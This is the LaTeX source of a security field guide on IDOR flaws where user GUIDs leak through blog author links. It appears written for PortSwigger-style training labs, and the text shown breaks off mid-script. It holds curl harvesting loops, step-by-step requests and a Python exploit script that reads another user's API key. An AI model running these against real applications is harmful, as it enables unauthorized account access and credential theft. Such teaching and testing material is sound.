\documentclass[11pt,letterpaper]{article}

% ============================================================
% COMPREHENSIVE FIELD GUIDE: UID Controlled by Request Parameter
% with Unpredictable UIDs (GUIDs/UUIDs) - IDOR Vulnerability
% ============================================================

% ---------- Page & typography ----------
\usepackage[margin=1in]{geometry}
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage{lmodern}
\usepackage{microtype}
\usepackage{amssymb} % for \square and additional math symbols
\usepackage{parskip}

% ---------- Structure ----------
\usepackage{booktabs}
\usepackage{longtable}
\usepackage{tabularx}
\usepackage{array}
\usepackage{multirow}
\usepackage{enumitem}
\setlist[itemize]{leftmargin=*, itemsep=0.35em, topsep=0.35em}
\setlist[enumerate]{leftmargin=*, itemsep=0.35em, topsep=0.35em}

% ---------- Links ----------
\usepackage[hidelinks,colorlinks=true,linkcolor=blue!60!black,urlcolor=blue!70!black]{hyperref}
\usepackage{url}

% ---------- Graphics ----------
\usepackage{graphicx}
\usepackage{tikz}
\usetikzlibrary{shapes.geometric, arrows.meta, positioning, fit, backgrounds}

% ---------- Code listings ----------
\usepackage{xcolor}
\usepackage{listings}
\usepackage{fancyvrb}

\definecolor{codeframe}{rgb}{0.85,0.85,0.85}
\definecolor{codenums}{rgb}{0.40,0.40,0.40}
\definecolor{codebg}{rgb}{0.97,0.97,0.97}
\definecolor{codegreen}{rgb}{0.0,0.5,0.0}
\definecolor{codepurple}{rgb}{0.58,0.0,0.82}
\definecolor{codeblue}{rgb}{0.0,0.0,0.7}
\definecolor{codered}{rgb}{0.7,0.0,0.0}
\definecolor{guidcolor}{rgb}{0.6,0.4,0.0}

% Robust inline code (handles %, _, #, etc.)
\newcommand{\code}[1]{\texttt{\detokenize{#1}}}
\newcommand{\kbd}[1]{\fbox{\texttt{\small #1}}}
\newcommand{\filepath}[1]{\texttt{#1}}
\newcommand{\guid}[1]{\texttt{\color{guidcolor}#1}}

\lstdefinelanguage{http}{
  morekeywords={GET,POST,PUT,DELETE,PATCH,HEAD,OPTIONS,HTTP,Host,User-Agent,Accept,Accept-Language,Content-Type,Authorization,Cookie,Set-Cookie,Location,Origin,Referer,Cache-Control,X-Requested-With},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]"
}

\lstdefinelanguage{javascript}{
  morekeywords={break,case,catch,class,const,continue,debugger,default,delete,do,else,export,extends,finally,for,function,if,import,in,instanceof,let,new,return,super,switch,this,throw,try,typeof,var,void,while,with,yield,await,async,true,false,null,undefined,require,module,exports,document,window},
  sensitive=true,
  morecomment=[l]{//},
  morecomment=[s]{/*}{*/},
  morestring=[b]',
  morestring=[b]"
}

\lstdefinelanguage{python}{
  morekeywords={and,as,assert,break,class,continue,def,del,elif,else,except,False,finally,for,from,global,if,import,in,is,lambda,None,nonlocal,not,or,pass,raise,return,True,try,while,with,yield,self,print},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]',
  morestring=[b]",
  morestring=[b]'''
}

\lstdefinelanguage{bash}{
  morekeywords={sudo,apt,cat,cd,chmod,cp,curl,echo,export,grep,head,kill,less,ls,mkdir,mv,printf,ps,pwd,rm,sed,ssh,tail,touch,which,python,python3,pip,jq,awk,xargs},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]"
}

\lstdefinelanguage{java}{
  morekeywords={abstract,assert,boolean,break,byte,case,catch,char,class,const,continue,default,do,double,else,enum,extends,false,final,finally,float,for,if,implements,import,instanceof,int,interface,long,native,new,null,package,private,protected,public,return,short,static,strictfp,super,switch,synchronized,this,throw,throws,transient,true,try,void,volatile,while,@PreAuthorize,@Secured},
  sensitive=true,
  morecomment=[l]{//},
  morecomment=[s]{/*}{*/},
  morestring=[b]",
  morestring=[b]'
}

\lstdefinelanguage{html}{
  morekeywords={html,head,body,script,div,span,a,href,src,id,class,p,h1,h2,h3,section,article,nav,footer},
  sensitive=false,
  morecomment=[s]{<!--}{-->},
  morestring=[b]",
  morestring=[b]'
}

\lstset{
  basicstyle=\ttfamily\small,
  columns=fullflexible,
  breaklines=true,
  breakatwhitespace=false,
  frame=single,
  rulecolor=\color{codeframe},
  backgroundcolor=\color{codebg},
  framerule=0.6pt,
  numbers=left,
  numberstyle=\tiny\color{codenums},
  stepnumber=1,
  numbersep=10pt,
  showstringspaces=false,
  tabsize=2,
  upquote=true,
  keywordstyle=\color{codeblue}\bfseries,
  commentstyle=\color{codegreen}\itshape,
  stringstyle=\color{codepurple},
  xleftmargin=2em,
  framexleftmargin=1.5em
}

% ---------- Callout environments ----------
\usepackage{tcolorbox}
\tcbuselibrary{skins,breakable}

\newtcolorbox{warningbox}[1][]{
  colback=red!5!white,
  colframe=red!75!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{infobox}[1][]{
  colback=blue!5!white,
  colframe=blue!75!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{tipbox}[1][]{
  colback=green!5!white,
  colframe=green!60!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{notebox}[1][]{
  colback=yellow!5!white,
  colframe=yellow!60!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{conceptbox}[1][]{
  colback=purple!5!white,
  colframe=purple!60!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

% Legacy callout for compatibility
\newenvironment{callout}[1]{%
  \begin{tcolorbox}[colback=gray!10!white,colframe=gray!60!black,fonttitle=\bfseries,title=#1,breakable]
}{%
  \end{tcolorbox}
}

% ---------- Document metadata ----------
\title{\textbf{Comprehensive Field Guide:\\UID Controlled by Request Parameter\\with Unpredictable UIDs}\\[0.5em]
\large IDOR/Horizontal Privilege Escalation---GUID Discovery, Exploitation, and Object-Level Authorization\\[0.3em]
\normalsize Version 2.0}
\author{Web Application Security Assessment Reference}
\date{January 21, 2026}

\begin{document}
\maketitle

\begin{abstract}
\noindent This comprehensive field guide addresses a critical variant of Insecure Direct Object Reference (IDOR): \textbf{horizontal privilege escalation where user identifiers are unpredictable GUIDs/UUIDs, but are still discoverable through information leakage}. In this scenario, the application uses globally unique identifiers (e.g., \code{550e8400-e29b-41d4-a716-446655440000}) instead of sequential integers, creating a false sense of security. However, if these GUIDs leak anywhere in the application---blog posts, author links, API responses, or user profiles---an attacker can harvest them and access other users' data.

This guide provides security professionals with:
\begin{itemize}
  \item Deep understanding of why unpredictable IDs don't replace authorization
  \item Systematic GUID/UUID discovery and harvesting techniques
  \item Complete manual exploitation workflows with Burp Suite
  \item Production-ready automation scripts for GUID extraction and exploitation
  \item Comprehensive coverage of information leakage vectors
  \item Object-level authorization remediation patterns
  \item Testing checklists and evidence collection frameworks
\end{itemize}

\noindent\textbf{Key Insight:} Security through obscurity (unpredictable IDs) is not access control. If the server doesn't verify ``Does user A have permission to access object X?'', the vulnerability exists regardless of ID format.
\end{abstract}

\tableofcontents
\newpage

% ============================================================
\section{Introduction and Scope}
% ============================================================

\subsection{Document Purpose}

This field guide serves as a practical reference for identifying, exploiting, and remediating IDOR vulnerabilities where object references use unpredictable identifiers. The guide emphasizes:

\begin{itemize}
  \item \textbf{GUID/UUID discovery techniques} across multiple application surfaces
  \item \textbf{Information leakage pattern recognition} for harvesting identifiers
  \item \textbf{Automated enumeration and extraction} of user identifiers
  \item \textbf{Object-level authorization} as the only proper fix
\end{itemize}

\subsection{Vulnerability Classification}

\begin{table}[h]
\centering
\begin{tabular}{@{}lll@{}}
\toprule
\textbf{Standard} & \textbf{Classification} & \textbf{Reference} \\
\midrule
OWASP Top 10 2021 & A01:2021 Broken Access Control & \url{owasp.org/Top10} \\
CWE & CWE-639: Auth Bypass via User-Controlled Key & \url{cwe.mitre.org} \\
CWE & CWE-284: Improper Access Control & \url{cwe.mitre.org} \\
CWE & CWE-200: Exposure of Sensitive Information & \url{cwe.mitre.org} \\
OWASP API Top 10 & API1:2023 Broken Object Level Authorization & \url{owasp.org/API-Security} \\
CVSS v3.1 & Typically Medium to High (5.0--7.5) & Context-dependent \\
\bottomrule
\end{tabular}
\caption{Vulnerability classification across security standards}
\end{table}

\subsection{How This Differs from Sequential ID IDOR}

\begin{table}[h]
\centering
\begin{tabularx}{\textwidth}{@{}lXX@{}}
\toprule
\textbf{Aspect} & \textbf{Sequential IDs} & \textbf{Unpredictable IDs (GUIDs)} \\
\midrule
ID Format & \code{id=1}, \code{id=2}, \code{id=3} & \code{id=550e8400-e29b-41d4-a716-446655440000} \\
Discovery & Simple enumeration (+1, +2, etc.) & Requires information leakage harvesting \\
Brute Force & Often feasible & Computationally infeasible \\
Developer Assumption & None (obvious vulnerability) & ``GUIDs are secure'' (false security) \\
Attack Complexity & Low & Medium (requires GUID discovery) \\
\bottomrule
\end{tabularx}
\caption{Sequential vs. unpredictable ID comparison}
\end{table}

\subsection{Ethical and Legal Framework}

\begin{warningbox}[Critical: Authorized Testing Only]
This guide must only be used on systems where you have explicit written authorization to perform security testing. This includes:
\begin{itemize}
  \item Dedicated security training labs (e.g., PortSwigger Web Security Academy)
  \item Your own test environments and applications
  \item Systems covered by a valid penetration testing agreement
  \item Bug bounty programs where this testing is in scope
\end{itemize}

\textbf{Unauthorized access to computer systems is illegal and may result in criminal prosecution.}
\end{warningbox}

% ============================================================
\section{Conceptual Foundation: Why Unpredictable IDs Don't Fix IDOR}
% ============================================================

\subsection{The Fundamental Misconception}

\begin{conceptbox}[Core Principle]
\textbf{Access control is about authorization, not entropy.}

Using GUIDs/UUIDs instead of sequential integers is \emph{obscurity}, not \emph{security}. The authorization question remains unchanged:

\begin{center}
\emph{``Is the authenticated user allowed to access the requested object?''}
\end{center}

If the server doesn't ask this question, the vulnerability exists regardless of ID format.
\end{conceptbox}

\subsection{Understanding GUIDs/UUIDs}

\begin{table}[h]
\centering
\begin{tabularx}{\textwidth}{@{}llX@{}}
\toprule
\textbf{Format} & \textbf{Example} & \textbf{Characteristics} \\
\midrule
UUID v4 & \code{550e8400-e29b-41d4-a716-446655440000} & Random, 122 bits of entropy \\
UUID v1 & \code{6ba7b810-9dad-11d1-80b4-00c04fd430c8} & Timestamp + MAC address based \\
GUID & \code{A9E1F2B3-C4D5-6E7F-8901-234567890ABC} & Microsoft variant, often v4 \\
Short ID & \code{xK7mN9pQ} & Base62/Base64 encoded, less entropy \\
MongoDB ObjectId & \code{507f1f77bcf86cd799439011} & Timestamp + machine + counter \\
\bottomrule
\end{tabularx}
\caption{Common unpredictable identifier formats}
\end{table}

\subsection{Why GUIDs Can Still Be Exploited}

\begin{enumerate}
  \item \textbf{Information Leakage}: GUIDs appear in:
  \begin{itemize}
    \item Author/profile links on public content
    \item API responses (list endpoints, search results)
    \item HTML source code, JavaScript objects
    \item URL parameters in referrer headers
    \item Error messages and debug output
  \end{itemize}
  
  \item \textbf{No Brute Force Needed}: Attacker harvests valid GUIDs from the application itself
  
  \item \textbf{Authorization Still Missing}: Server blindly trusts the provided GUID without checking ownership
\end{enumerate}

\subsection{The Authorization Gap}

\begin{figure}[h]
\centering

\begin{tikzpicture}[
  box/.style={rectangle, draw, rounded corners, minimum width=3.5cm, minimum height=1.2cm, align=center, font=\small},
  arrow/.style={-{Stealth[length=3mm]}, thick},
  xmark/.style={rectangle, draw, dashed, red, thick, minimum width=1.5cm, minimum height=0.8cm, align=center, font=\small\color{red}}
]
  % Request
  \node[box, fill=blue!20] (req) at (0,0) {Request\\id=carlos-guid};
  
  % Server Decision
  \node[box, fill=yellow!30] (check) at (5,0) {Server Checks\\``Is GUID valid?''};
  
  % Missing Check
  \node[xmark] (missing) at (5,-1.8) {MISSING!};
  \node[below=0.1cm of missing, font=\scriptsize, text width=3cm, align=center] {``Is requester\\authorized?''};
  
  % Response
  \node[box, fill=red!20] (resp) at (10,0) {Response\\Carlos's Data};
  
  \draw[arrow] (req) -- (check);
  \draw[arrow] (check) -- (resp);
  \draw[arrow, dashed, red] (check) -- (missing);
\end{tikzpicture}
\caption{The authorization gap---server validates GUID format but not access permission}
\end{figure}

\subsection{Security Invariant for Object Access}

For every request that accesses a user-specific resource:

\begin{center}
\fbox{\parbox{0.8\textwidth}{
\textbf{The server must verify:}
\begin{enumerate}
  \item The requested object exists
  \item The authenticated user has permission to access that object
  \item The action requested is permitted for this user on this object
\end{enumerate}
}}
\end{center}

% ============================================================
\section{Information Leakage: Where GUIDs Are Exposed}
% ============================================================

\subsection{Primary GUID Leakage Vectors}

\begin{table}[h]
\centering
\begin{tabularx}{\textwidth}{@{}lX@{}}
\toprule
\textbf{Leakage Vector} & \textbf{Description and Examples} \\
\midrule
Blog/Content Author Links & \code{<a href="/author?userId=guid">John</a>} \\
User Profile Pages & Public profiles expose owner GUID in URL \\
Comments/Reviews & Author GUIDs in comment metadata \\
API List Responses & \code{GET /api/users} returns all user GUIDs \\
Search Results & User search exposes GUIDs of matching users \\
Activity Feeds & ``User X liked this'' with GUID in link \\
Shared Content & \code{/document?id=docGuid\&sharedBy=userGuid} \\
Error Messages & ``User guid not found'' in error responses \\
HTML Source & GUIDs in hidden fields, data attributes, JS variables \\
Referrer Headers & Previous page URL leaks GUIDs to external sites \\
\bottomrule
\end{tabularx}
\caption{Common GUID leakage vectors in web applications}
\end{table}

\subsection{Blog/Content-Based Leakage (Lab Pattern)}

The most common pattern in training labs and real applications:

\begin{lstlisting}[language=html,caption={Blog post with author GUID leakage}]
<article class="blog-post">
    <h2>Understanding Web Security</h2>
    <p class="post-meta">
        Posted by 
        <a href="/author?userId=7a2b3c4d-5e6f-7890-abcd-ef1234567890">
            carlos
        </a>
        on January 20, 2026
    </p>
    <div class="post-content">
        <!-- Article content -->
    </div>
</article>
\end{lstlisting}

\begin{tipbox}[Key Discovery Point]
Clicking on the author name reveals the GUID in:
\begin{itemize}
  \item The URL bar: \code{/author?userId=7a2b3c4d...}
  \item The HTTP request in Burp: \code{GET /author?userId=7a2b3c4d...}
  \item The page source: \code{href="/author?userId=7a2b3c4d..."}
\end{itemize}
\end{tipbox}

\subsection{API Response Leakage}

\begin{lstlisting}[language=bash,caption={API endpoint leaking user GUIDs}]
GET /api/users HTTP/1.1
Host: target.example.com
Authorization: Bearer token123

HTTP/1.1 200 OK
Content-Type: application/json

{
  "users": [
    {
      "id": "550e8400-e29b-41d4-a716-446655440000",
      "username": "administrator",
      "email": "admin@example.com"
    },
    {
      "id": "7a2b3c4d-5e6f-7890-abcd-ef1234567890",
      "username": "carlos",
      "email": "carlos@example.com"
    },
    {
      "id": "9f8e7d6c-5b4a-3210-fedc-ba0987654321",
      "username": "wiener",
      "email": "wiener@example.com"
    }
  ]
}
\end{lstlisting}

\subsection{Hidden Form Fields and Data Attributes}

\begin{lstlisting}[language=html,caption={GUIDs in HTML source}]
<!-- Hidden form field -->
<input type="hidden" name="userId" value="7a2b3c4d-5e6f-7890-abcd-ef1234567890">

<!-- Data attribute -->
<div class="user-card" data-user-id="7a2b3c4d-5e6f-7890-abcd-ef1234567890">
    <span class="username">carlos</span>
</div>

<!-- JavaScript variable -->
<script>
    const currentUser = {
        id: "9f8e7d6c-5b4a-3210-fedc-ba0987654321",
        name: "wiener"
    };
    
    const allUsers = [
        { id: "550e8400-e29b-41d4-a716-446655440000", name: "administrator" },
        { id: "7a2b3c4d-5e6f-7890-abcd-ef1234567890", name: "carlos" }
    ];
</script>
\end{lstlisting}

\subsection{GraphQL Introspection Leakage}

\begin{lstlisting}[language=bash,caption={GraphQL query exposing user GUIDs}]
POST /graphql HTTP/1.1
Content-Type: application/json

{
  "query": "{ users { id username email } }"
}

-- Response --
{
  "data": {
    "users": [
      {
        "id": "7a2b3c4d-5e6f-7890-abcd-ef1234567890",
        "username": "carlos",
        "email": "carlos@example.com"
      }
    ]
  }
}
\end{lstlisting}

% ============================================================
\section{Discovery Methodologies}
% ============================================================

\subsection{Phase 1: Identify GUID-Based Endpoints}

\subsubsection{URL Parameter Analysis}

Look for endpoints that accept ID parameters:

\begin{lstlisting}[language=bash,caption={Identifying GUID-accepting endpoints}]
# Common patterns to look for:
/my-account?id=GUID
/user/GUID
/profile?userId=GUID
/api/users/GUID
/api/v1/accounts/GUID
/document?id=GUID&owner=GUID
\end{lstlisting}

\subsubsection{Recognize Your Own GUID}

\begin{lstlisting}[language=http,caption={Observing your own GUID after login}]
-- After logging in, access account page --
GET /my-account HTTP/1.1
Host: target.example.com
Cookie: session=authenticatedSession

-- Response redirects or shows --
HTTP/1.1 302 Found
Location: /my-account?id=9f8e7d6c-5b4a-3210-fedc-ba0987654321

-- Or directly in URL --
GET /my-account?id=9f8e7d6c-5b4a-3210-fedc-ba0987654321 HTTP/1.1
\end{lstlisting}

\begin{notebox}[Key Observation]
If your account page URL contains a GUID parameter like \code{?id=...}, this is a strong indicator that:
\begin{enumerate}
  \item The application uses GUIDs to identify users
  \item The server may trust this parameter without proper authorization
  \item Other users' GUIDs may grant access to their accounts
\end{enumerate}
\end{notebox}

\subsection{Phase 2: Hunt for GUID Leakage}

\subsubsection{Blog/Content Analysis}

\begin{lstlisting}[language=bash,caption={Extracting GUIDs from blog posts}]
# Fetch main page and extract all user GUIDs
curl -s https://target.example.com/ | \
  grep -oP 'userId=[a-f0-9-]{36}' | \
  sort -u

# Extract from author links
curl -s https://target.example.com/ | \
  grep -oP 'href="[^"]*userId=[a-f0-9-]{36}[^"]*"'

# Search for GUID patterns in page source
curl -s https://target.example.com/ | \
  grep -oE '[a-f0-9]{8}-[a-f0-9]{4}-[a-f0-9]{4}-[a-f0-9]{4}-[a-f0-9]{12}'
\end{lstlisting}

\subsubsection{Systematic Post Enumeration}

\begin{lstlisting}[language=bash,caption={Enumerating blog posts for GUIDs}]
# Find all post links
curl -s https://target.example.com/ | \
  grep -oP 'href="/post\?postId=[0-9]+"' | \
  sort -u

# Visit each post and extract author GUID
for postId in 1 2 3 4 5 6 7 8 9 10; do
  echo "Checking post $postId..."
  curl -s "https://target.example.com/post?postId=$postId" | \
    grep -oP 'userId=[a-f0-9-]{36}' | head -1
done
\end{lstlisting}

\subsubsection{Browser DevTools Method}

\begin{enumerate}
  \item Open the application in browser
  \item Navigate to blog/content pages
  \item \textbf{Method A}: Hover over author links and observe URL in status bar
  \item \textbf{Method B}: Right-click author link $\rightarrow$ ``Copy Link Address''
  \item \textbf{Method C}: Open DevTools (\kbd{F12}) $\rightarrow$ Elements $\rightarrow$ Search for ``userId''
  \item \textbf{Method D}: Network tab $\rightarrow$ Filter by XHR $\rightarrow$ Look for API calls with GUIDs
\end{enumerate}

\subsection{Phase 3: GUID Collection and Mapping}

Create a mapping of discovered GUIDs to users:

\begin{lstlisting}[caption={GUID collection table}]
+------------------------------------------+---------------+----------+
| GUID                                     | Username      | Source   |
+------------------------------------------+---------------+----------+
| 550e8400-e29b-41d4-a716-446655440000     | administrator | Post #1  |
| 7a2b3c4d-5e6f-7890-abcd-ef1234567890     | carlos        | Post #2  |
| 9f8e7d6c-5b4a-3210-fedc-ba0987654321     | wiener (self) | Login    |
+------------------------------------------+---------------+----------+
\end{lstlisting}

% ============================================================
\section{Manual Exploitation Workflow}
% ============================================================

\subsection{Pre-Assessment Setup}

\begin{enumerate}
  \item \textbf{Burp Suite Configuration}
  \begin{itemize}
    \item Proxy listener on \code{127.0.0.1:8080}
    \item Project file created for evidence retention
    \item Intercept initially disabled (passive monitoring)
  \end{itemize}
  
  \item \textbf{Test Credentials}
  \begin{itemize}
    \item Standard user account (e.g., wiener:peter)
    \item Target user to compromise (e.g., carlos)
  \end{itemize}
\end{enumerate}

\subsection{Step 1: Login and Identify Your GUID}

\begin{lstlisting}[language=http,caption={Step 1: Login and observe account structure}]
-- Login request --
POST /login HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=TOKEN&username=wiener&password=peter

-- Response --
HTTP/1.1 302 Found
Location: /my-account?id=9f8e7d6c-5b4a-3210-fedc-ba0987654321
Set-Cookie: session=xyz789; Secure; HttpOnly

-- Follow redirect --
GET /my-account?id=9f8e7d6c-5b4a-3210-fedc-ba0987654321 HTTP/1.1
Cookie: session=xyz789

-- Response --
HTTP/1.1 200 OK

<h1>My Account</h1>
<p>Your username is: wiener</p>
<p>Your API Key is: abc123-your-api-key-here</p>
\end{lstlisting}

\begin{tipbox}[Critical Observation]
Notice the URL structure: \code{/my-account?id=GUID}. This indicates:
\begin{itemize}
  \item User data is selected by the \code{id} parameter
  \item The GUID \code{9f8e7d6c-5b4a-3210-fedc-ba0987654321} is YOUR identifier
  \item If you can find another user's GUID, you may access their account
\end{itemize}
\end{tipbox}

\subsection{Step 2: Discover Target User's GUID}

\begin{lstlisting}[language=http,caption={Step 2: Browse blog posts to find target GUID}]
-- View home page with blog posts --
GET / HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=xyz789

-- Response shows blog posts --
HTTP/1.1 200 OK

<article>
    <h2>Security Best Practices</h2>
    <p>Posted by <a href="/author?userId=550e8400-...">administrator</a></p>
</article>

<article>
    <h2>My Journey in Tech</h2>
    <p>Posted by <a href="/author?userId=7a2b3c4d-5e6f-7890-abcd-ef1234567890">carlos</a></p>
</article>
\end{lstlisting}

\begin{lstlisting}[language=http,caption={Step 2b: Click author link to confirm GUID}]
GET /author?userId=7a2b3c4d-5e6f-7890-abcd-ef1234567890 HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=xyz789

-- Response confirms this is carlos --
HTTP/1.1 200 OK

<h1>Author: carlos</h1>
<p>Posts by this author...</p>
\end{lstlisting}

\subsection{Step 3: Exploit IDOR to Access Target Account}

\begin{lstlisting}[language=http,caption={Step 3: Replace your GUID with target's GUID}]
-- Your normal account request --
GET /my-account?id=9f8e7d6c-5b4a-3210-fedc-ba0987654321 HTTP/1.1
Cookie: session=xyz789

-- Modify to use carlos's GUID --
GET /my-account?id=7a2b3c4d-5e6f-7890-abcd-ef1234567890 HTTP/1.1
Cookie: session=xyz789

-- Vulnerable response: carlos's data! --
HTTP/1.1 200 OK

<h1>My Account</h1>
<p>Your username is: carlos</p>
<p>Your API Key is: xyz789-carlos-secret-api-key</p>
\end{lstlisting}

\begin{warningbox}[Vulnerability Confirmed]
By simply replacing the GUID in the URL parameter, we accessed carlos's account data including his API key. The server:
\begin{itemize}
  \item Accepted the request with our session cookie
  \item Loaded data for the GUID we specified (carlos)
  \item Did NOT verify we had permission to access carlos's data
\end{itemize}
\end{warningbox}

\subsection{Step 4: Burp Repeater Workflow}

\begin{enumerate}
  \item \textbf{Capture baseline}: Send your \code{/my-account?id=YOUR-GUID} request to Repeater
  \item \textbf{Verify normal response}: Send and confirm you see YOUR data
  \item \textbf{Substitute GUID}: Replace your GUID with target's GUID
  \item \textbf{Send modified request}: Observe if target's data is returned
  \item \textbf{Document difference}: Compare responses showing different user data
\end{enumerate}

\subsection{Step 5: Extract Sensitive Data}

\begin{lstlisting}[language=http,caption={Step 5: Extract API key from response}]
-- Response body analysis --
<div class="account-info">
    <p>Your username is: <strong>carlos</strong></p>
    <div>Your API Key is: 
        <span id="api-key">xK7mN9pQrS2tUvWx3yZ4aB5cD6eF7gH8</span>
    </div>
</div>

-- Extracted data --
Username: carlos
API Key: xK7mN9pQrS2tUvWx3yZ4aB5cD6eF7gH8
\end{lstlisting}

% ============================================================
\section{Automated Exploitation}
% ============================================================

\subsection{Complete Python Exploitation Script}

\begin{lstlisting}[language=python,caption={Full-featured GUID harvesting and exploitation script}]
#!/usr/bin/env python3
"""
UID Controlled by Parameter with Unpredictable UIDs - Exploitation Script

This script:
1. Logs in as the provided user
2. Enumerates blog posts to find target user's GUID
3. Uses the discovered GUID to access target's account
4. Extracts sensitive data (API key)

Usage: python3 exploit.py <BASE_URL> [--target <username>]
Example: python3 exploit.py https://lab.example.com --target carlos
"""

import sys
import re
import argparse
import requests
import urllib3
from bs4 import BeautifulSoup
from typing import Optional, List, Tuple, Set

# Disable SSL warnings for lab environments
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy configuration
PROXIES = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080"
}

# Default credentials
DEFAULT_USERNAME = "wiener"
DEFAULT_PASSWORD = "peter"

# GUID regex pattern (standard UUID format)
GUID_PATTERN = r'[a-f0-9]{8}-[a-f0-9]{4}-[a-f0-9]{4}-[a-f0-9]{4}-[a-f0-9]{12}'


def banner():
    """Print script banner."""
    print("""
    +--------------------------------------------------------------+
    |  UID Controlled by Parameter - Unpredictable UIDs Exploit    |
    |  IDOR via GUID Harvesting - For authorized testing only      |
    +--------------------------------------------------------------+
    """)


def get_csrf_token(session: requests.Session, url: str) -> Optional[str]:
    """Extract CSRF token from a page."""
    try:
        response = session.get(url, verify=False, proxies=PROXIES, timeout=15)
        soup = BeautifulSoup(response.text, 'html.parser')
        
        csrf_input = soup.find('input', {'name': 'csrf'})
        if csrf_input and csrf_input.get('value'):
            return csrf_input['value']
        
        # Fallback to regex
        match = re.search(r'name="csrf"\s+value="([^"]+)"', response.text)
        if match:
            return match.group(1)
            
        return None
    except requests.RequestException as e:
        print(f"[-] Error fetching CSRF token: {e}")
        return None


def login(
    session: requests.Session,
    base_url: str,
    username: str,
    password: str
) -> bool:
    """Log in to the application."""
    login_url = f"{base_url}/login"
    
    print(f"[*] Fetching CSRF token from login page...")
    csrf_token = get_csrf_token(session, login_url)
    
    if not csrf_token:
        print("[-] Failed to extract CSRF token")
        return False
    
    print(f"[+] CSRF token: {csrf_token[:20]}...")
    print(f"[*] Logging in as '{username}'...")
    
    login_data = {
        'csrf': csrf_token,
        'username': username,
        'password': password
    }
    
    try:
        response = session.post(
            login_url,
            data=login_data,
            verify=False,
            proxies=PROXIES,
            timeout=15,
            allow_redirects=True
        )
        
        if 'Log out' in response.text or 'logout' in response.text.lower():
            print(f"[+] Successfully logged in as '{username}'")
            return True
        
        print("[-] Login failed")
        return False
        
    except requests.RequestException as e:
        print(f"[-] Login error: {e}")
        return False


def get_post_ids(session: requests.Session, base_url: str) -> List[str]:
    """Extract all post IDs from the home page."""
    print("[*] Fetching home page to enumerate posts...")
    
    try:
        response = session.get(
            base_url,
            verify=False,
            proxies=PROXIES,
            timeout=15
        )
        
        # Find all post links
        post_ids = re.findall(r'postId=(\d+)', response.text)
        unique_ids = list(set(post_ids))
        
        print(f"[+] Found {len(unique_ids)} unique posts")
        return unique_ids
        
    except requests.RequestException as e:
        print(f"[-] Error fetching posts: {e}")
        return []


def find_target_guid(
    session: requests.Session,
    base_url: str,
    target_username: str
) -> Optional[str]:
    """
    Search through blog posts to find the target user's GUID.
    """
    print(f"[*] Searching for {target_username}'s GUID in blog posts...")
    
    post_ids = get_post_ids(session, base_url)
    
    if not post_ids:
        # Try direct home page analysis
        print("[*] No post IDs found, analyzing home page directly...")
        response = session.get(base_url, verify=False, proxies=PROXIES, timeout=15)
        
        # Look for author links with target username
        soup = BeautifulSoup(response.text, 'html.parser')
        for link in soup.find_all('a'):
            href = link.get('href', '')
            text = link.get_text().lower()
            
            if target_username.lower() in text and 'userId=' in href:
                match = re.search(GUID_PATTERN, href)
                if match:
                    guid = match.group(0)
                    print(f"[+] Found {target_username}'s GUID: {guid}")
                    return guid
    
    # Enumerate posts to find target user
    for post_id in post_ids:
        post_url = f"{base_url}/post?postId={post_id}"
        
        try:
            response = session.get(
                post_url,
                verify=False,
                proxies=PROXIES,
                timeout=15
            )
            
            # Check if this post is by the target user
            if target_username.lower() in response.text.lower():
                # Extract GUID from author link
                match = re.search(
                    rf'userId=({GUID_PATTERN})',
                    response.text,
                    re.IGNORECASE
                )
                
                if match:
                    guid = match.group(1)
                    print(f"[+] Found {target_username}'s GUID in post {post_id}: {guid}")
                    return guid
                    
        except requests.RequestException:
            continue
    
    print(f"[-] Could not find GUID for {target_username}")
    return None


def access_target_account(
    session: requests.Session,
    base_url: str,
    target_guid: str
) -> Tuple[bool, str]:
    """Access the target user's account using their GUID."""
    account_url = f"{base_url}/my-account?id={target_guid}"
    
    print(f"[*] Accessing account with GUID: {target_guid}")
    
    try:
        response = session.get(
            account_url,
            verify=False,
            proxies=PROXIES,
            timeout=15
        )
        
        if response.status_code == 200:
            print("[+] Successfully accessed target account!")
            return True, response.text
        else:
            print(f"[-] Failed to access account: {response.status_code}")
            return False, ""
            
    except requests.RequestException as e:
        print(f"[-] Error accessing account: {e}")
        return False, ""


def extract_api_key(html: str) -> Optional[str]:
    """Extract API key from account page HTML."""
    # Common patterns for API keys in HTML
    patterns = [
        r'API [Kk]ey[:\s]+([a-zA-Z0-9-]+)',
        r'api-key["\']?\s*[>:]\s*([a-zA-Z0-9-]+)',
        r'Your API Key is:?\s*<?[^>]*>?\s*([a-zA-Z0-9-]+)',
